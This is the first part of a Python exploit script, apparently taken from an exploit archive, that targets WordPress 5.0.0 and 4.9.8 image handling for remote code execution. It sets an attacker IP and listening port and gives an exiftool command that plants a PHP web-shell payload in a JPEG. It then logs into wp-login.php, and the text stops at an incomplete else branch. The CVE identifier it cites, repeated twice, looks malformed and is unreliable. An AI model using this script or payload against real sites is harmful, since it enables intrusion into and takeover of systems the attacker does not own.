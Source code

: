 ```python title="49512.py"
# Exploit Title: WordPress 5.0.0 - Image Remote Code Execution
# Date: 2020-02-01
# Exploit Authors: OUSSAMA RAHALI ( aka V0lck3r)
# Discovery Author : RIPSTECH Technology
# Version: WordPress 5.0.0 and <= 4.9.8 .
# References : CVE-2019-89242 | CVE-2019-89242  | https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/

#/usr/bin/env python3

import requests
import re
import sys
from datetime import datetime

banner = """

__        __            _                           ____   ____ _____
\ \      / /__  _ __ __| |_ __  _ __ ___  ___ ___  |  _ \ / ___| ____|
 \ \ /\ / / _ \| '__/ _` | '_ \| '__/ _ \/ __/ __| | |_) | |   |  _|
  \ V  V / (_) | | | (_| | |_) | | |  __/\__ \__ \ |  _ <| |___| |___
   \_/\_/ \___/|_|  \__,_| .__/|_|  \___||___/___/ |_| \_\\____|_____|
                         |_|
                                                5.0.0 and <= 4.9.8
"""
print(banner)
print("usage :")
print("=======")
usage = 'python3 RCE_wordpress.py http://<IP>:<PORT>/ <Username> <Password> <WordPress_theme>'
print(usage)

url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
wp_theme = sys.argv[4] # wpscan results

lhost = '10.10.10.10' #attacker ip
lport = '4141' #listening port

date = str(datetime.now().strftime('%Y'))+'/'+str(datetime.now().strftime('%m'))+'/'

imagename = 'gd.jpg'
# ======
# Note :
# ======
# It could be any jpg image, BUT there are some modifications first :
# 1- image name as : "gd.jpg"
# 2- place the image in the same directory as this exploit.
# 3- inject the php payload via exiftool : exiftool gd.jpg -CopyrightNotice="<?=\`\$_GET[0]\`?>"

data = {
        'log':username,
        'pwd':password,
        'wp-submit':'Log In',
        'redirect_to':url+'wp-admin/',
        'testcookie':1
}

r = requests.post(url+'wp-login.php',data=data)

if r.status_code == 200:
        print("[+] Login successful.\n")
else:
```